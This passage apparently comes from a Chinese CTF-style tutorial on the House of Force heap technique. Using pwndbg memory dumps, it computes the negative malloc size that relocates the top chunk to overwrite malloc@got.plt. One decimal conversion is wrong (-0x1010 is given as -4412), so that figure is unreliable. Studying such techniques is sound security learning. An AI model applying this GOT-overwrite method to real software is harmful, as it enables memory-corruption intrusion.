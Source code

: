 ```c
pwndbg> x/16gx 0x602000
0x602000:   0x0000000000000000  0x0000000000000021 #chunk1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0xffffffffffffffff #old_top_chunk
                                #ptr
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
pwndbg> 
```

现在，要控制的内存地址为：0x601020

```c
pwndbg> x/16gx 0x601000
0x601000:   0x0000000000600e28  0x00007ffff7ffe168
0x601010:   0x00007ffff7deef10  0x0000000000001009
0x601020:   0x00007ffff7a91180  0x0000000000000000
            #malloc@got.plt
0x601030:   0x0000000000000000  0x0000000000000000
0x601040:   0x0000000000000000  0x0000000000000000
0x601050:   0x0000000000000000  0x0000000000000000
0x601060:   0x0000000000000000  0x0000000000000000
0x601070:   0x0000000000000000  0x0000000000000000
pwndbg>
```

假如说我们最后使用malloc(0x10)来控制malloc@got.plt，那么在malloc(0x10)之前，堆内存地址应该是这样的：

```c
pwndbg> x/16gx 0x601000
0x601000:   0x0000000000600e28  0x00007ffff7ffe168 
0x601010:   0x00007ffff7deef10  0x0000000000001009 #new_top_chunk
0x601020:   0x00007ffff7a91180  0x0000000000000000
            #malloc@got.plt
0x601030:   0x0000000000000000  0x0000000000000000
0x601040:   0x0000000000000000  0x0000000000000000
0x601050:   0x0000000000000000  0x0000000000000000
0x601060:   0x0000000000000000  0x0000000000000000
0x601070:   0x0000000000000000  0x0000000000000000
pwndbg>
```

两个top_chunk的地址相差：

new_top_chunk_addr-old_top_chunk_addr=0x601010-0x602020=-0x1010=-4412

再根据前面的经验，减去0x10的chunk_header大小即可：malloc(-0x1020)=malloc(-4128)

这个malloc大小和之前的（malloc(-4120); ）并不冲突，因为我们输入的要malloc大小如果不合适的话会在申请空间时自动对齐，导致malloc出的chunk_size相同，自动对齐这个东西之后再说。

> 我在附件里会上传里修改后的代码，我调试过是没有问题的。
>
